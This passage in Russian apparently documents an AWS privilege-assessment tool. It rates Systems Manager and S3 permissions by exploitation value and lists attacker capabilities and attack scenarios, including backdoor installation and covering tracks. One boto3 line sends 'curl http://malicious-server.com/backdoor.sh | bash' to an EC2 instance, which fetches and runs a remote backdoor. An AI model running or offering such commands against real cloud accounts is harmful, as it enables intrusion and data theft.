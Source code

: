### 4. **Systems Manager Commands** (35-45 баллов)
**Эксплуатационная ценность**: 🔥🔥🔥🔥🔥

#### Реальные проверки в коде:
```python
# Удаленное выполнение команд и получение конфигураций
ssm_client.send_command(InstanceIds=['test'], DocumentName='AWS-RunShellScript', Parameters={'commands': ['echo test']})
ssm_client.describe_parameters()
ssm_client.send_command(InstanceIds=['i-1234567890abcdef0'], DocumentName='AWS-RunShellScript', Parameters={'commands': ['curl http://malicious-server.com/backdoor.sh | bash']})
ssm_client.start_session(Target='i-1234567890abcdef0', DocumentName='SSM-SessionManagerRunShell')
ssm_client.terminate_session(SessionId='test-session-id')
```

#### Возможности злоумышленника:
- **Выполнение команд** на всех EC2 инстансах
- **Получение конфигурационных файлов** серверов
- **Отправка команд** на EC2 инстансы для удаленного выполнения
- **Интерактивные сессии** на серверах через SSM
- **Завершение активных сессий** на серверах
- **Установка программного обеспечения**
- **Сбор логов и метрик** с серверов

#### Реальные сценарии атак:
```
1. Выполнение команд на всех серверах → Полный контроль инфраструктуры
2. Получение конфигураций → Анализ настроек безопасности
3. Отправка команд → Установка backdoor на серверах
4. Интерактивные сессии → Прямой доступ к серверам
5. Завершение сессий → Сокрытие следов атаки
```

---

### 5. **S3 Data Exfiltration** (35 баллов)
**Эксплуатационная ценность**: 🔥🔥🔥🔥🔥

#### Реальные проверки в коде:
```python
# Прямой доступ к данным и создание backdoor
s3_client.list_buckets()
s3_client.list_objects_v2(Bucket='test', MaxKeys=1)
s3_client.put_object(Bucket='test', Key='test.txt', Body=b'test')
s3_client.create_bucket(Bucket='test-escalation-bucket-' + str(int(time.time())))
s3_client.delete_bucket(Bucket='test-bucket')
```

#### Возможности злоумышленника:
- **Скачивание всех файлов** из S3 бакетов
- **Извлечение резервных копий** и дампов
- **Загрузка файлов** для создания backdoor
- **Создание новых S3 бакетов** для хранения данных
- **Удаление S3 бакетов** для сокрытия следов атаки
- **Доступ к статическим ресурсам** веб-сайтов
